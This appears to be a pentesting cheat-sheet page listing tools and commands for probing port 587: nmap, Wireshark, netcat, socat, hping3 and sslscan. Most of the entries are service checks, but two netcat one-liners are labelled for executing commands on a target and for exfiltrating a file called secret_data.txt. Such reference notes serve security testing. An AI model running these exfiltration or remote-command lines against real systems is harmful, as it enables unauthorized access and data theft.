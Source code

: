 ## Exploitation Tools

### [[Metasploit]]

### [[Wireshark]]
- **Wireshark Packet Capture:**
	```bash
	wireshark -i <interface> -f "tcp port 587"
	```

### [[Nmap]]
- **Basic Nmap Scan:** Scan target on specified port to verify if service is on.
    ```bash
    nmap <target_ip> -p 587
    ```

### [[NetCat]]
 - **Netcat TCP Connect:** Simple test to verify port service is running and responding.
    ```bash
    nc <target_ip> 587
    ```
- **Netcat UDP Connect:** Simple test to verify port service is running and responding.
    ```bash
    nc <target_ip> 587 -u
    ```
- **Execute Commands:** Execute commands on target.
	```bash
	echo "<command>" | nc <target_ip> 587
	```
- **Exfiltrate Data:** Exfiltrate data over specified port.
	```bash
    nc <target_ip> 587 < secret_data.txt
    ```

### [[SoCat Cheat Sheet]]
- **Socat TCP Connect:** Simple tests to verify port service is running and responding.
	```bash
	socat - TCP:<target_ip>:587
	```

### [[HPing3 Cheat Sheet]]
- **Send UDP Packet:** Send a single UDP packet to the service.
    ```bash
    hping3 -2 <target_ip> -p 587 -c 1
    ```

### [[SSLScan]]
- **Scan Target:** Detailed analysis of an HTTPS service’s SSL/TLS configuration.
    ```bash
    sslscan <target_ip>:587
    ```
